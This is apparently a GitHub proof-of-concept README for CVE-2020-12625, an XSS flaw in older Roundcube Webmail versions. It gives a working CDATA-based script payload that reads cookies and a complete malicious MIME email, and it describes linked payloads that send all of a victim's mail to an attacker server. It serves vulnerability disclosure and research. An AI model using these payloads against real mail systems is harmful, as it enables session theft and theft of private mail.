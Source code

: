 # CVE-2020-12625: Cross-Site Scripting (XSS) via Malicious HTML Attachment in Roundcube Webmail

A Cross-Site scripting (XSS) vulnerability exists in Roundcube versions before 1.4.4, 1.3.11 and 1.2.10.
<br/>
By leveraging the "\<![CDATA[...]]\>" XML element in a mail with a "text/html" attachment, an attacker can bypass the Roundcube script filter and execute arbitrary malicious JavaScript in the victim's browser when the malicious email is clicked.

### Vendor Disclosure:

The vendor's disclosure and patch of this vulnerability can be found [here](https://roundcube.net/news/2020/04/29/security-updates-1.4.4-1.3.11-and-1.2.10).

### Proof Of Concept:

By using "\<![CDATA[...]]\>", an attacker can use a "text/html" attachment that will result in an XSS when the victim opens the email.
<br/>
The XHTML content of a malicious file has the following form:
```
<label id="xss"><![CDATA[
<script type="text/javascript"> alert(document.location+"\n"+document.cookie); </script>
]]></label>
```

Now we are interested in creating a valid email with the above file. This can be achieved in multiple ways, but in this case, "[mpack](https://linux.die.net/man/1/mpack)" was used.
<br/>
<strong>Note:</strong> Because "mpack" does not support "text/html" formats, we use an "application/html" format which we later manually modify.
<br/>
The resulting email, containing the above XSS will have the following form:
```
Message-ID: <10597.1586954798@tester> Mime-Version: 1.0
Subject: XML HTML XSS
Content-Type: multipart/mixed; boundary="-"
 
This is a MIME encoded message. Decode it with "munpack"
or any other MIME reading software. Mpack/munpack is available via anonymous FTP in ftp.andrew.cmu.edu:pub/mpack/
--- 
Content-Type: text/html; name="xss.xml"
Content-Transfer-Encoding: base64
Content-Disposition: inline; filename="xss.xml"
Content-MD5: u3TPnyqjJjkLsagJAZnTNg==

PGxhYmVsIGlkPSJ4c3MiPjwhW0NEQVRBWwo8c2NyaXB0IHR5cGU9InRleHQvamF2YXNjcmlw dCI+CmFsZXJ0KGRvY3VtZW50LmxvY2F0aW9uKyJcbiIrZG9jdW1lbnQuY29va2llKTsKPC9z
Y3JpcHQ+Cl1dPjwvbGFiZWw+Cg==

-----
```

We can then use "[sendmail](https://linux.die.net/man/8/sendmail.sendmail)" or other solutions to send the email to the victim. In this case the victim will be "guest@localhost".
<br/>
<br/>
If we view the attacker's terminal, the attack would look like this:
<img src="Attacker's%20Terminal.png"/>

And the XSS will trigger when the victim clicks on the malicious email:
<img src="Victim's%20Browser.png"/>
<img src="XSS.png"/>

#### Implementing an "Advanced" JavaScript Payload

Expanding on this concept an attacker may employ advanced JavaScript attacks in order to exfiltrate and/or delete all the victim's mails. The corresponding JavaScript/HTML can be found in [here](JavaScript%20Payloads/get_all_mail.html) (the GET version) or [here](JavaScript%20Payloads/get_all_mail_POST.html) (the POST version, a bit more complicated to set up but can exfiltrate large files that would be too big for a GET Parameter).
<br/>
We repeat the same steps as above to send the malicious XSS payload.
<br/>
This XSS reads and sends the victim's mails, via base64 encoded HTTP GET or POST parameters, to an attacker-controlled server (in this case "127.0.0.1:8000").
<br/>
We consider the "Super Secret" email a legitimate email containing sensitive information that the attacker is interested in obtaining:
<img src="Super%20Secret.png"/>

#### Result

When the victim clicks on the malicious mail ("Super XML HTML XSS"), all mails, including "Super Secret", will be sent to the attacker's server. By decoding the base64 message, the attacker can read the exfiltrated messages' content.
<img src="GET%20Mails.png"/>
